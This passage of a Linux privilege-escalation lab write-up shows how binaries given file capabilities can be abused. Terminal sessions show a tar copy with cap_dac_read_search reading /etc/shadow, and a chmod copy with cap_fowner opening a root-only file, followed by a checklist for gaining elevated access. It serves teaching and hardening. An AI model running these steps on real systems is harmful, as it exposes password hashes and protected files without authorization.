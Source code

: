 User can compress with modified tar and decompress. Note the permission is of user
```
kali@kali:~/code/capabilities$ getcap -r .
./tar_mod cap_dac_read_search=ep
kali@kali:~/code/capabilities$ ./tar_mod -cvf shadowFile.tar /etc/shadow
./tar_mod: Removing leading `/' from member names
/etc/shadow
kali@kali:~/code/capabilities$ ls -la
total 484
drwxr-xr-x 2 kali kali   4096 Apr 18 00:48 .
-rw-r----- 1 root root   1639 Apr 18 00:45 shadowFile
-rw-r--r-- 1 kali kali  10240 Apr 18 00:49 shadowFile.tar
-rwxr-xr-x 1 root root 445560 Apr 18 00:48 tar_mod
kali@kali:~/code/capabilities$ tar -xvf shadowFile.tar 
etc/shadow
kali@kali:~/code/capabilities$ cat ./etc/shadow 
root:!:18288:0:99999:7:::
daemon:*:18288:0:99999:7:::
bin:*:18288:0:99999:7:::
...

```

### Chmod Scenario

Sysadmin has a file only readable by root
```
root@kali:/home/kali/code/capabilities# echo "only root can see this" > root.txt
root@kali:/home/kali/code/capabilities# chmod 000 root.txt
root@kali:/home/kali/code/capabilities# ls -la root.txt
---------- 1 root root 23 Apr 18 01:00 root.txt
root@kali:/home/kali/code/capabilities# cat root.txt
only root can see this
```

Sysadmin misconfigured chmod permission
```
root@kali:/home/kali/code/capabilities# cp $(which chmod) ./chmod_mod
root@kali:/home/kali/code/capabilities# setcap cap_fowner+ep chmod_mod 
root@kali:/home/kali/code/capabilities# 
```

User
```
kali@kali:~/code/capabilities$ cat root.txt
cat: root.txt: Permission denied
kali@kali:~/code/capabilities$ chmod 777 root.txt
chmod: changing permissions of 'root.txt': Operation not permitted

kali@kali:~/code/capabilities$ getcap -r .
./chmod_mod cap_fowner=ep
kali@kali:~/code/capabilities$ ./chmod_mod 777 root.txt
kali@kali:~/code/capabilities$ ls -la root.txt 
-rwxrwxrwx 1 root root 23 Apr 18 01:00 root.txt
kali@kali:~/code/capabilities$ cat root.txt 
only root can see this
```

### Conclusion
- Figure out binary that has capabilities
- What does the binary do
- What capability can you use for the binary
- Combine this and think of how to get elevated access
